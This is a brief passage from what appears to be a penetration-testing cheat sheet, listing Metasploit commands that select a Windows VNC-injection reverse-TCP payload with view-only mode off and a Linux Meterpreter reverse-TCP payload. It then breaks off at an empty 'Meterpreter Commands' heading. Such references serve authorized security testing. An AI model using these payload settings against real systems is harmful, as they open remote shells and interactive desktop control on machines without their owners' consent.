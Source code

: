 #### Windows VNC Meterpreter payload


<div class="mobile-side-scroller">
<table>
  <thead>
    <tr>
      <th>Command</th>
      <th>Description</th>
    </tr>
  </thead>
  <tbody>

    <tr>
      <td>
        <p><code>set payload windows/vncinject/reverse_tcp</code></p>
        <p><code>set ViewOnly false</code></p>
      </td>
      <td>
            <p>Meterpreter Windows VNC Payload</p>
      </td>
    </tr>

  </tbody>
</table>
</div>

#### Linux Reverse Meterpreter payload

<div class="mobile-side-scroller">
<table>
  <thead>
    <tr>
      <th>Command</th>
      <th>Description</th>
    </tr>
  </thead>
  <tbody>

    <tr>
      <td>
        <p><code>set payload linux/meterpreter/reverse_tcp</code></p>
      </td>
      <td>
            <p>Meterpreter Linux Reverse Payload</p>
      </td>
    </tr>

  </tbody>
</table>
</div>

### Meterpreter Commands
